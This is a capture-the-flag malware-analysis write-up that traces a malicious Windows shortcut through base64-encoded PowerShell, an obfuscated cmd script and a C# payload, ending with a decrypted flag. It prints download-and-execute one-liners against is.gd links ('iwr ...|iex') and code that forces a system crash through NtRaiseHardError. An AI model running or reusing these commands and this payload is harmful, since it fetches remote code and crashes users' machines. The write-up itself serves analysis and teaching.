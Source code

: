 +++
title = "Russian Roulette"
description = "My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :("
authors = ["cstef"]
date = 2024-09-30

[taxonomies]
categories = ["malware"]
+++

## Description

My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(

----

We are given a `.lnk` file, that we can parse with [`lnkparse`](https://pypi.org/project/LnkParse3/):

```
Windows Shortcut Information:
   ...

   TARGET:
      ...

   LINK INFO:
      ...

   DATA:
      Relative path: ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
      Working directory: C:\Windows\system32
      Command line arguments: -e aQB3AHIAIABpAHMALgBnAGQALwB6AGQANABoAFoAbgAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=

   EXTRA:
      ...
```

Quite a lot of junk here but we see that `powershell.exe` is being passed some base64-encoded stuff.

```bash
echo "aQB3AHIAIABpAHMALgBnAGQALwB6AGQANABoAFoAbgAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=" | base64 -d

# is.gd/zd4hZn
```

```bash
curl -L is.gd/zd4hZn > first.out
```


Our `first.out` file looks a bit weird, but we can deduct that is a `cmd` script split into three main parts:

1. Aliases for the `set` command:
```cmd
&cls
@echo off
set x=set
%x% s=
%x%%s%zz==
%x%%s%p%zz%/
%x%%s%ma%zz%a
%x%%s%gm%zz%c
%x%%s%qf%zz%m
%x%%s%h%zz%d
%x%%s%ax%zz%e
%x%%s%ds%zz%x
%x%%s%rb%zz%i
%x%%s%cu%zz%t
%x%%s%qd%zz%
```

2. Character mappings

```cmd
%x%%s%%p%%ma%%s%z%zz%8639305 %% 8639208
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%z%
%x%%s%wp%zz%%=exitcodeAscii%
%x%%s%%p%%ma%%s%ab%zz%3403246 %% 3403148
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%ab%
%x%%s%v%zz%%=exitcodeAscii%
%x%%s%%p%%ma%%s%cy%zz%5276898 %% 5276799
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%cy%
%x%%s%e%zz%%=exitcodeAscii%
```

3. Payload

```cmd
%qu%%qu%%qd%%eb%%ax%%cu%%qd%%ds%%dc%%u%%ma%%g%%u%%gm%%v%%dc%%gm%%qg%%gm%%ba%%ec%%hv%%cu%%u%%ax%%xk%%ul%%ds%%o%%ax%%nv%%ax%%ds%%g%%wa%%h%%qf%%ds%%gm%%ec%%ul%%eb%%rb%%ds%%qf%%wa%%wa%%t%%rb%%qg%%u%%pv%%rb%%cr%%nv%%cr%%o ...
```

After arranging the whole thing with `---START---` and `---END---` delimiters, we can start decoding !

```js
const fs = require("fs");

const MAPPING_REGEX = /%x%%s%%p%%ma%%s%(.*)%zz%(\d+) %% (\d+)\n.*\n%x%%s%(.*)%zz%%=exitcodeAscii%/g;

const file = process.argv[2];

const data = fs.readFileSync(file, "utf16le");
const matches = data.matchAll(MAPPING_REGEX);

// Manual mappings defined at part 1. (needed for "/a cmd exit")
const mappings = {
	ma: "a",
	gm: "c",
	qf: "m",
	h: "d",
	ax: "e",
	ds: "x",
	rb: "i",
	cu: "t",
	qd: " ",
};

// Parse mappings from part 2.
for (const match of matches) {
	const [_, _, dividend, divisor, variable] = match;
	const result = parseInt(dividend) % parseInt(divisor);
	const char = String.fromCharCode(result);
	console.log(`${variable} => ${char}`);
	mappings[variable] = char;
}

// Retrieve the payload part
const to_decode = data.split("---START---")[1].split("---END---")[0].split("\n");

let res = "";

for (let line of to_decode) {
	let match = line.matchAll(/%([a-z]{1,2})%/g);
    // Replace with the matching mapped char
	for (const m of match) {
		const [_, prefix] = m;
		const mapped = mappings[prefix];
		if (mapped !== undefined) {
			line = line.replace(`%${prefix}%`, mapped);
		}
	}
	res += line + "\n";
}

console.log(res);
```

Running this and we get another file full of junk:

```cmd
rem set yjchhfxckpteverppmhztkiqhhpehqjgvzpglozcjzxxczmkhrww=yvrclcqlfnfpxmcwpqpjsdybfvggxacsfacvjpcliuwpzbzroenqawfxrc
rem set fzhnusjekleyyjbpzlmygwjvtqwvtgqwdjssqpncuqytnfijbqribyhkmmdhxq=jsqpyyljkjmwxxnkqvvnemyxwtgpobiljbkxuozgtrqdnydgtltwo
:: set urfroegmtkpfqis=verfnkrbhcmiajaezhqb
set jpyqlchzcuzgmjsahxjxenltfpdygmdkztrzqouxkdfwkewypaiwxvhyyoncafjbqfsh=dbvxggytlrfvtl
set rmdybvgurqrxfqmhbseysiyiqauksottklgaitbij=xvoapkvhtwrwvrylzgbsxjmtgxymdgjs
rem set syuzveatifikhhcdvsavncalizphjsukxggujlvfqn=eclazgecomzdgvl
set ftzoy=syywqkwsdqxvzkidymdrijcp
powershell -e aQB3AHIAIABpAHMALgBnAGQALwBRAFIARAB5AGkAUAB8AGkAZQB4AA==
:: set urfroegmtkpfqis=verfnkrbhcmiajaezhqb
:: set xwrahrcbwcgcuoktrepnxfevexhydmxconsixmyyqigr=izvzf
set rmdybvgurqrxfqmhbseysiyiqauksottklgaitbij=xvoapkvhtwrwvrylzgbsxjmtgxymdgjs
set qhpjorldrymwegzawcstabkrryxcnflhkropseifrzxwwxdpz=plobsfozpdbdkzadbscqzmunzqawmuikgfrvvy
set cbatydmrbkgqjtmgcdpyytxqbjxj=esguhttobrtqjcfesywmllbvytnpcqym
rem set yjchhfxckpteverppmhztkiqhhpehqjgvzpglozcjzxxczmkhrww=yvrclcqlfnfpxmcwpqpjsdybfvggxacsfacvjpcliuwpzbzroenqawfxrc
set ftzoy=syywqkwsdqxvzkidymdrijcp
```

All the lines starting with `rem` or `::` are comments so we can safely ignore them, the one that seems interesting is:

```cmd
powershell -e aQB3AHIAIABpAHMALgBnAGQALwBRAFIARAB5AGkAUAB8AGkAZQB4AA==
```

Another round of base64 decoding:
```bash
echo "aQB3AHIAIABpAHMALgBnAGQALwBRAFIARAB5AGkAUAB8AGkAZQB4AA==" | base64 -d
# iwr is.gd/QRDyiP|iex
```

You know what's next, `curl`-it. We now get a CSharp program that is being compiled and ran. A little formatting so that our eyes stop bleeding from this oneliner:

```cs
using System;
using System.Text;
using System.Security.Cryptography;
using System.Runtime.InteropServices;
using System.IO;

public class X
{
    [DllImport("ntdll.dll")]
    public static extern uint RtlAdjustPrivilege(int p, bool e, bool c, out bool o);
    [DllImport("ntdll.dll")]
    public static extern uint NtRaiseHardError(uint e, uint n, uint u, IntPtr p, uint v, out uint r);
    public static unsafe string Shot()
    {
        bool o; uint r; RtlAdjustPrivilege(19, true, false, out o);
        NtRaiseHardError(0xc0000022, 0, 0, IntPtr.Zero, 6, out r);
        byte[] c = Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");
        byte[] k = Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");
        byte[] i = Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");
        using (Aes a = Aes.Create())
        {
            a.Key = k;
            a.IV = i;
            ICryptoTransform d = a.CreateDecryptor(a.Key, a.IV);
            using (var m = new MemoryStream(c))
            using (var y = new CryptoStream(m, d, CryptoStreamMode.Read))
            using (var s = new StreamReader(y))
            {
                return decryptedText;
            }
        }
    }
}
```

We have a simple AES encryption going inside the `Shot()` function, which is then conditionally called in the script from the previous URL:

```powershell
if ((Get-Random -Min 1 -Max 7) -eq 1) { [X]::Shot() }
```

Our `Shot()` function basically adjusts the program's privileges to allow it to shutdown the system and then raises an error `0xc0000022` telling the system it needs to shut down with the `6` (shutdown action) argument.

It was getting pretty late at the time of solving this and I did not have the courage to compile csharp at midnight on a mac without visual studio and a 10Mpbs Internet connection, so I decided to rewrite the encryption process from the file in nodejs.

```js
const crypto = require("crypto");

const encryptedText = Buffer.from("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw", "base64");
const aesKey = Buffer.from("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=", "base64");
const aesIv = Buffer.from("9sXGmK4q9LdYFdOp4TSsQw==", "base64");

const decipher = crypto.createDecipheriv("aes-256-cbc", aesKey, aesIv);

let decrypted = decipher.update(encryptedText, "base64", "utf-8");
decrypted += decipher.final("utf-8");

console.log(decrypted);
```

Running this and we finally get the flag: 
```
flag{4e4f266d44717ff3af8bd92d292b79ec}
```